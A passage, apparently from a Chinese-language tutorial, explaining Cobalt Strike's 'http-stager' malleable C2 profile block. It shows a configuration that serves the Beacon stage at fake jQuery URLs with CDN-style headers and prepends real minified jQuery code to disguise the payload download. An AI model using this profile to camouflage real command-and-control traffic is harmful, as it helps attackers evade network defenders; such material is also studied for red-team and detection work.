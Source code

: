 Cobalt Strike提供了`http-stager`代码块，使我们可以控制stage（即Beacon的核心代码）的发送过程，下面是一个`http-stager`的示例

```apl
http-stager {  
    set uri_x86 "/jquery-3.3.1.slim.min.js";
    set uri_x64 "/jquery-3.3.2.slim.min.js";

    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line            
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            # 1st Line
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
```